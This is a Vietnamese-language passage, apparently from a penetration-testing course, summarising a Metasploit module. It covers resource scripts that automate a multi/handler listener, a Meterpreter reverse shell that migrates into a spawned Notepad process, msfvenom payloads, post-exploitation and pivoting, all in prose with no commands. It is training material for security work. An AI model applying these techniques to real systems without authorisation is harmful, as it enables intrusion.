Hãy tóm tắt những gì đã học trong phần này. Chúng ta bắt đầu bằng việc làm quen với resource script. Sau đó, chúng ta tạo resource script của riêng mình để tự động hóa quá trình thiết lập một listener multi/handler. Cuối cùng, chúng ta thực thi resource script và một file thực thi tương ứng để nhận một Meterpreter reverse shell đi vào, shell này tự migrate sang một process Notepad mới được spawn.

---

# 5. Tổng kết

---

Trong Module này, chúng ta đã bao quát nhiều tính năng, module và khả năng của Metasploit. Chúng ta bắt đầu bằng việc làm quen với chính framework và khám phá cách sử dụng các module auxiliary và exploit. Tiếp theo, chúng ta thảo luận về nhiều loại payload khác nhau có sẵn trong Metasploit và msfvenom. Sau đó, chúng ta đề cập đến các tính năng và module cho post-exploitation với Meterpreter cũng như cách sử dụng pivoting trong Metasploit. Cuối cùng, chúng ta đã tạo một resource script để tự động hóa quá trình thiết lập multi/handler, script này sẽ migrate sang một process mới được spawn ngay khi Metasploit tạo session do một reverse shell đi vào.

Các exploit framework như Metasploit là vô cùng giá trị trong các penetration test, bởi vì việc quản lý thủ công nhiều shell và session nhanh chóng trở nên tẻ nhạt và dễ xảy ra lỗi. Hơn nữa, các module có trong framework có thể dễ dàng được tùy chỉnh để phù hợp với nhu cầu của chúng ta mà không cần phải trải qua quá trình sửa chữa mã exploit công khai. Các framework này thường cũng cung cấp khả năng tạo các file thực thi, mà chúng ta có thể sử dụng cho các client-side attack hoặc các cuộc tấn công web application. Bằng cách sử dụng payload đặc trưng của Metasploit là Meterpreter, chúng ta có được một loạt các kỹ thuật post-exploitation và pivoting mạnh mẽ.